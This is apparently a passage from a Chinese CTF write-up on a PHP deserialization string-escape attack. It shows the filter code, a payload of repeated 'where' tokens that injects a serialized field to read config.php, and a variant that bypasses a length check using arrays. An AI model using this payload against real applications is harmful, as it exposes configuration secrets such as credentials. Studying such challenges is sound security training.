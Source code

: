 计算一下字符串的长度  33个字符 我们只需要 33个where 就可以通过hacker逃逸

所以我们构造一下

```php
<?php
function filter($string){
    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string);
}
$profile['phone']='12345678901';
$profile['email']='for@example.com';
$profile['nickname']='wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}';
$profile['photo']='upload/21232f297a57a5a743894a0e4a801fc3';
 
var_dump(filter(serialize($profile)));
?>
```

这里看样子是成功了



<img src="https://i-blog.csdnimg.cn/blog_migrate/1db7f789ea9e859669523c2f33beb8f5.png" alt="" style="max-height:519px; box-sizing:content-box;" />


发现报错了 为什么呢 我们去看看 这个报错在哪里



<img src="https://i-blog.csdnimg.cn/blog_migrate/00db80c204be28c2db744046fe675dfc.png" alt="" style="max-height:95px; box-sizing:content-box;" />


发现我们需要绕过 这个长度的判断

## 绕过长度判断

通过数据即可 绕过

但是数组的话我们反序列化就需要重新构造

```css
非数组
 
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:5:"photo";s:10:"config.php";}
 
这个在非数组是ok的
 
但是在数组 元素之间需要}闭合
 
 
所以就是这样
 
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```
